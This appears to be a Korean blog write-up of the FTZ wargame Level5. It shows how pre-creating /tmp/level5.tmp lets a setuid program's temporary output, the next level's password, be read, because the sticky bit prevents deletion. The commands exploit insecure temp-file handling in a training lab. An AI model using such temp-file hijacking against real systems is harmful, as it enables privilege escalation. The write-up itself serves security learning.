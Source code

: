 ```yaml
---
title: FTZ Level5
categories: [Wargame]
tags: [FTZ]
path: '/articles/2015-10/FTZ-Level5'
date: '2015-10-09T16:00:00.000Z'
comments: true
---
```


```bash
[level5@ftz level5]$ cat hint

/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.
```

이 문제를 tmp폴더의 특성을 이용해 풀이하였다.

```bash
[level5@ftz level5]$ ls -dl /tmp
drwxrwxrwt    3 root     root         4096 Oct  9 14:58 /tmp
```

/tmp폴더를 보게되면 sticky bit가 걸려있는데, 이를 이용해 문제를 풀 수 있다. 다른 사람의 풀이를 보게되면 race condition을 이용하여 해결하였다.

우선 `sticky bit`의 특성을 살펴보면 모든 권한이 있기 때문에 누구나 이 속에 있는 파일및 폴더를 수정 및 실행할 수 있다.

하지만 stiky bit로 인해 소유자를 제외한 사람은 삭제를 할 수 없다. 물론 root의 경우는 삭제가 가능하다. level5파일을 살펴보자.

```bash
[level5@ftz level5]$ ls -l /usr/bin/level5
-rws--x---    1 level6   level5      12236 Sep 10  2011 /usr/bin/level5
```

level5파일은 level6의 권한으로 실행이 되게 된다. 이 말은 root가 아니므로 다른 사용자가 된다. 다른 사용자의 경우 삭제를 하지 못한다는 뜻이다.

level5의 권한으로 파일을 생성한 후 level6의 권한으로 이 **파일을 수정**할 수는 있지만, **삭제의 경우 불가능**하다.

그러므로 level5파일이 level5.tmp파일에 답을 쓴 후 **삭제를 하지 못하므로**, 안에 있는 값이 남아있게 된다.

```bash
[level5@ftz tmp]$ echo "" >> level5.tmp
[level5@ftz tmp]$ ls -l level5.tmp
-rw-rw-r--    1 level5   level5          1 Oct  9 15:05 level5.tmp
[level5@ftz tmp]$ /usr/bin/level5
[level5@ftz tmp]$ ls -l level5.tmp
-rw-rw-r--    1 level5   level5         31 Oct  9 15:05 level5.tmp
```

이렇게 실행을 하게 되면 파일의 크기가 변경되었음을 알 수 있다.

```bash
[level5@ftz tmp]$ cat level5.tmp
next password :
```
